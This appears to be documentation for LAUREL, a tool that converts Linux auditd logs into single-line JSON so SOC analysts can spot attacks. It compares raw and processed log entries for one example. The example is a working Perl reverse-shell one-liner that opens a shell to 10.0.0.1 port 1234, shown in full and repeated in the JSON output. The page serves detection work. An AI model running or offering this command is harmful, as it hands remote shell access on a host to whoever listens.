# Practical _auditd(8)_ problems

When configured with the right ruleset, logs written by the Linux audit daemon contain most of the information that a competent SOC team needs for host-based security monitoring.

Unfortunately, some design choices for the log format make accessing this information harder than necessary.

Running a simple Perl [reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) one-liner
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
produces the following output in the audit log:
```
type=SYSCALL msg=audit(1626611363.720:348501): arch=c000003e syscall=59 success=yes exit=0 a0=55c094deb5c0 a1=55c094dea770 a2=55c094dbf1b0 a3=fffffffffffff286 items=3 ppid=722076 pid=724395 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts3 ses=3 comm="perl" exe="/usr/bin/perl" subj==unconfined key=(null)ARCH=x86_64 SYSCALL=execve AUID="user" UID="root" GID="root" EUID="root" SUID="root" FSUID="root" EGID="root" SGID="root" FSGID="root"
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F61746F6E282469292929297B6F70656E28535444494E2C223E265322293B6F70656E285354444F55542C223E265322293B6F70656E285354444552522C223E265322293B6578656328222F62696E2F7368202D6922293B7D3B
type=CWD msg=audit(1626611363.720:348501): cwd="/root"
type=PATH msg=audit(1626611363.720:348501): item=0 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=1 name="/usr/bin/perl" inode=401923 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PATH msg=audit(1626611363.720:348501): item=2 name="/lib64/ld-linux-x86-64.so.2" inode=404797 dev=fd:01 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0OUID="root" OGID="root"
type=PROCTITLE msg=audit(1626611363.720:348501): proctitle=7065726C002D650075736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B657428532C50465F494E45542C534F434B5F53545245414D2C67657470726F746F62796E616D6528227463702229293B696628636F6E6E65637428532C736F636B616464725F696E2824702C696E65745F6174
```

A cursory look at the audita log does not tell us what is going on, except that a Perl interpreter has been started. We would like to do better.

There are several issues with processing this log file format within a SIEM context:

- Different aspects of the same audit event are spread across multiple lines and have to be joined together.
- Strings that contain characters with special meaning for the audit log format (spaces, quotes, etc.) are encoded as hexadecimal strings without quotes and require decoding before they can be processed or displayed to the analyst.
- For numeric values, there is no clear distinction whether they should be interpreted as decimal, octal, or hexadecimal values. (This does not matter for this example.)
- Long command lines are even spread across multiple EXECVE event lines. (This does not matter for this example.)
- If the _auditd(8)_ user-space daemon adds information such as user   or group names (`format=ENRICHED`), this extra information is appended after a `\x1d` "group separator" character which may or may  not be displayed correctly.

This is the same log entry, processed by _LAUREL_ into a single log line:
``` json
{"ID":"1626611363.720:348501","SYSCALL":{"arch":"0xc000003e","syscall":59,"success":"yes","exit":0,"a0":"0x55c094deb5c0","a1":"0x55c094dea770","a2":"0x55c094dbf1b0","a3":"0xfffffffffffff286","items":3,"ppid":722076,"pid":724395,"auid":1000,"uid":0,"gid":0,"euid":0,"suid":0,"fsuid":0,"egid":0,"sgid":0,"fsgid":0,"tty":"pts3","ses":3,"comm":"perl","exe":"/usr/bin/perl","subj":"=unconfined","key":null,"ARCH":"x86_64","SYSCALL":"execve","AUID":"user","UID":"root","GID":"root","EUID":"root","SUID":"root","FSUID":"root","EGID":"root","SGID":"root","FSGID":"root"},"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]},"CWD":{"cwd":"/root"},"PATH":[{"item":0,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":1,"name":"/usr/bin/perl","inode":401923,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"},{"item":2,"name":"/lib64/ld-linux-x86-64.so.2","inode":404797,"dev":"fd:01","mode":"0o100755","ouid":0,"ogid":0,"rdev":"00:00","nametype":"NORMAL","cap_fp":"0x0","cap_fi":"0x0","cap_fe":0,"cap_fver":"0x0","cap_frootid":"0","OUID":"root","OGID":"root"}],"PROCTITLE":{"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"]}","PARENT_INFO":{"ID":"1626611323.973:348120","exe":"/bin/bash","comm":"bash","ppid":3190631}}
```

We can see that our main problems that would have prevented us from identifying the reverse shell have been resolved:
``` json
"EXECVE":{"argc":3,"ARGV":["perl","-e","use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}
```

We can also see the parent process that was used to spawn the reverse shell:
``` json
"PARENT_INFO":{"ID":"1626611323.973:348120","exe":"/bin/bash","comm":"bash","ppid":3190631}
```

Every line is a proper JSON document that can be reformatted with _jq_:
``` json
{
  "ID": "1626611363.720:348501",
  "SYSCALL": {
    "arch": "0xc000003e",
    "syscall": 59,
    "success": "yes",
    "exit": 0,
    "a0": "0x55c094deb5c0",
    "a1": "0x55c094dea770",
    "a2": "0x55c094dbf1b0",
    "a3": "0xfffffffffffff286",
    "items": 3,
    "ppid": 722076,
    "pid": 724395,
    "auid": 1000,
    "uid": 0,
    "gid": 0,
    "euid": 0,
    "suid": 0,
    "fsuid": 0,
    "egid": 0,
    "sgid": 0,
    "fsgid": 0,
    "tty": "pts3",
    "ses": 3,
    "comm": "perl",
    "exe": "/usr/bin/perl",
    "subj": "=unconfined",
    "key": null,
    "ARCH": "x86_64",
    "SYSCALL": "execve",
    "AUID": "user",
    "UID": "root",
    "GID": "root",
    "EUID": "root",
    "SUID": "root",
    "FSUID": "root",
    "EGID": "root",
    "SGID": "root",
    "FSGID": "root"
  },
  "EXECVE": {
    "argc": 3,
    "ARGV": [
      "perl",
      "-e",
      "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"
    ]
  },
  "CWD": {
    "cwd": "/root"
  },
  "PATH": [
    {
      "item": 0,
      "name": "/usr/bin/perl",
      "inode": 401923,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    },
    {
      "item": 1,
      "name": "/usr/bin/perl",
      "inode": 401923,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    },
    {
      "item": 2,
      "name": "/lib64/ld-linux-x86-64.so.2",
      "inode": 404797,
      "dev": "fd:01",
      "mode": "0o100755",
      "ouid": 0,
      "ogid": 0,
      "rdev": "00:00",
      "nametype": "NORMAL",
      "cap_fp": "0x0",
      "cap_fi": "0x0",
      "cap_fe": 0,
      "cap_fver": "0x0",
      "cap_frootid": "0",
      "OUID": "root",
      "OGID": "root"
    }
  ],
  "PROCTITLE": {
    "ARGV": [
      "perl",
      "-e",
      "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_at"
    ]
  },
  "PARENT_INFO": {
    "ID": "1626611323.973:348120",
    "exe": "/bin/bash",
    "comm": "bash",
    "ppid": 3190631
  }
}
```
